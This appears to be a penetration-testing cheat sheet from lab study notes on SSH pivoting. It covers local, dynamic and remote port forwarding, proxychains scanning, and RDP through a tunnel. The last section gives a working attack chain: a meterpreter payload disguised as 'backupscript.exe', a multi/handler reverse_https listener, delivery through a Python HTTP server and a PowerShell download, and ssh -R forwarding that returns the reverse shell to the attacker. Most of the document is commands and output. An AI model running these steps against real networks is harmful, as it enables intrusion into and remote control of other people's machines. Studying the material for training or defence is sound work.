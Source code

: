 ```yaml
---
description: This is more of a cheat sheet for commands.
---
```


# SSH





### Local Port Forwarding

```bash
 ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```

Forwarding multiple ports

```bash
 ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```



###

## SSH Tunneling over SOCKS proxy

### Dynamic Port Forwarding:

_**Attack hosts starts the SSH client via Dynamic Port Forward:**_

```bash
ssh -D 9050 ubuntu@10.129.202.64
```

The -D flag enables dynamic port forwarding & ssh acts as a SOCKS server.

_**Next we need a tool that can route any tool's packets over the specified port. We will use proxychains.**_

Proxychains is often used to force an application's `TCP traffic` to go through hosted proxies like `SOCKS4`/`SOCKS5`, `TOR`, or `HTTP`/`HTTPS` proxies.

We add socks4 _**127.0.0.1 9050**_ to our proxychains.conf file

```bash
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

_**Now we can start Nmap with proxychains. By specifying proxychains it forwards all packets over SSH to the 172.16.5.0/23 network**_

```bash
proxychains nmap -v -sn 172.16.5.1-200
```

_<mark style="color:red;">**NOTE:**</mark>_ proxychains only understands full TCP connections. So partial packets like half connect scans will not work. Additionally host-alive checks will not work as Windows Defender blocks ICMP requests (simple pings) by default.

### Using tools with Proxychains:

_**Msfconsole:**_

```bash
proxychains msfconsole
```

_**xfreerdp:**_

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```



### Remote / Reverse Port Forwarding

Say we have a shell on an ubuntu server running on  the same network as us. We want to open a meterpreter payload on the windows host on a different network that we have rdp access to so we can execute low-level windows api functions.&#x20;

<figure><img src="../../.gitbook/assets/Screenshot 2023-09-07 163608.png" alt=""><figcaption><p>Windows host is located on a different network than our jump host</p></figcaption></figure>

In this case we'll configure our reverse connection for the payload to our Ubuntu server's IP. (10.10.201.2). We will use port 8080 on the Ubuntu server to forward all packets back to our attack hosts' 8000 port.

```bash
 

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

_**Configuring & Starting multi/handler**_

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

_**We can copy our payload to the ubuntu server:**_

```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

_**Then start a http server to serve the file to the windows machine we have rdp access to**_

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

_**On the windows machine we can fetch the file from our ubuntu server**_

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

\
_**Finally, we can SSH remote port forward to our msfconsole listener service on port 8000 & the ubuntu server's port 8080.**_&#x20;

```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

The -R command asks the Ubuntu server to listen on \<targetIpAddress>:8080 and forward all incoming connections to our meterpreter listener on 0.0.0.0:8000 of our attack host.



